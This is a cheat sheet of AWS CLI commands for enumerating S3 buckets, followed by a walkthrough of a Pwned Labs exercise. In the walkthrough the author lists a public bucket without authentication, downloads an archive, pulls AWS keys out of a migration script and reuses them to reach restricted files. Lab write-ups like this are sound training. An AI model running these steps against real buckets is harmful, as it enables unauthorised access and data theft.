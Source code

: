 ### S3 Bucket Enumeration Cheat Sheet
- List Buckets in the Authenticated Account - ```aws s3 ls```
- Check if a Bucket Exists (No Auth) - ```aws s3 ls s3://[bucket-name] --no-sign-request```
- List Contents of a Public or Accessible Bucket - ```aws s3 ls s3://[bucket-name]/[optional-path] --no-sign-request```
- Download an Object - ```aws s3 cp s3://[bucket-name]/[key] [local-file] --no-sign-request```
- Upload a File (Test Write Access) - ```aws s3 cp test.txt s3://[bucket-name]/test.txt```
- Enumerate Bucket Permissions (Authenticated) 
    - Get bucket policy - ```aws s3api get-bucket-policy --bucket [bucket-name]```
    - Get bucket ACL (Access Control List) - ```aws s3api get-bucket-acl --bucket [bucket-name]```
    - Get Public Access Block settings - ```aws s3api get-bucket-public-access-block --bucket [bucket-name]```
    - Get CORS configuration (may hint at XSS vectors) - ```aws s3api get-bucket-cors --bucket [bucket-name]```
-  List All Buckets & Objects (If Compromised Creds)
```bash
aws s3api list-buckets
aws s3api list-objects --bucket [bucket-name] --output table
```

### Lab Introduction and Set Up
- Lab [Pwnedlabs](https://pwnedlabs.io/labs/aws-s3-enumeration-basics)
```Bash
# Target http://dev.huge-logistics.com, Once enter the form, 405 error
#405 Method Not Allowed
    #Code: MethodNotAllowed
    #Message: The specified method is not allowed against this resource.
    #Method: POST
    #ResourceType: OBJECT
    #RequestId: 4Y72PDD02YKBEEE2
    #HostId: aqPu9q7qB4ZCfLeBpTTEwkedq3G8SHjeRRsDapDBSykf3QltpJ6rDZCv5BZBlEu6Xhr4c4m86ps=
# It looks like potential S3 bucket

#  <link rel="stylesheet" href="https://s3.amazonaws.com/dev.huge-logistics.com/static/style.css">  In the View source dev.huge-logistics.com
```
- List the files
```bash
aws s3 ls s3://dev.huge-logistics.com --no-sign-request
  # files admin don't have access (admin/, migration-files/, shared/,static/,5347 index.html) 
  ```
- Download
```bash
aws s3 cp s3://dev.huge-logistics.com/shared/hl_migration_project.zip . --no-sign-request
```
- Unzip the file 
```bash
unzip hl_migration_project.zip   # their is a migrate_secrets.ps1 
cat migrate_secrets.ps1 
# AWS Configuration
# $accessKey = ""
# $secretKey = ""
# $region = "us-east-1"
```
- Login to aws cli
```bash
aws configure --profile pwned # enter above keys
aws s3 ls s3://dev.huge-logistics.com/admin --profile pwned
aws s3 ls s3://dev.huge-logistics.com/admin/ --profile pwned # found website_transactions_export.csv
aws s3 cp s3://dev.huge-logistics.com/admin/website_transactions_export.csv . --profile pwned # 403 Forbidden
aws s3 cp s3://dev.huge-logistics.com/migration-files/test-export.xml . --profile pwned # downloaded
```